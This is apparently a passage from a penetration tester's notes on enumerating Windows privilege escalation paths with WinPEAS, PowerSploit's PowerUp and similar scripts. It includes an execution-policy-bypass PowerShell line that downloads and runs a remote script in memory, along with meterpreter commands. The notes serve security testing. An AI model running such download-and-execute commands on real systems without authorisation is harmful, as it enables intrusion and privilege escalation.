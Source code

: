 For more information about `AppLocker`, refer to the
`Windows - Bypass AppLocker` note.

### Enumeration scripts

Most of the enumeration process detailed below can be automated using scripts.

*Personal preference: PEASS's `WinPEAS.exe` or `WinPEAS.bat` + PowerSploit's
`PowerUp.ps1` `Invoke-PrivescAudit` / `Invoke-AllChecks` + off-target
`Windows Exploit Suggester - Next Generation`*

To upload the scripts on the target, please refer to the `[General] File
transfer` note.

Note that PowerShell scripts can be injected directly into memory using
PowerShell `DownloadString` or through a `meterpreter` session:

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('<URL_PS1>'); <Invoke-CMD>"

PS> IEX (New-Object Net.WebClient).DownloadString('<URL_PS1>')
PS> <Invoke-CMD>

meterpreter> load powershell
meterpreter> powershell_import <PS1_FILE_PATH>
meterpreter> powershell_execute <Invoke-CMD>
```

###### Privilege Escalation Awesome Scripts SUITE (PEASS) - WinPEAS

`WinPEAS` checks the local privilege escalation vectors defined in the
following checklist:
`https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation`.

Note that the `winPEAS.exe` executable requires the .NET 4.0 framework to
function. Alternatively, the `winPEAS.bat` script may be used instead (with no
coloring support and less optimization).

```
# All checks with out resource throttling
# Additionally specify "notcolor" to avoid formatting errors if ANSI coloring is not supported
winPEAS.exe cmd searchall searchfast

winPEAS.bat
```

###### PowerSploit's PowerUp

The PowerSploit's PowerUp `Invoke-PrivescAudit` / `Invoke-AllChecks` and
enjoiz's `privesc.bat` or `privesc.ps1`scripts run a number of configuration
checks:
  - Clear text passwords in files or registry  
  - Unquoted services path
  - Weak services permissions
  - "AlwaysInstallElevated" policy
  - Token privileges
  - ...
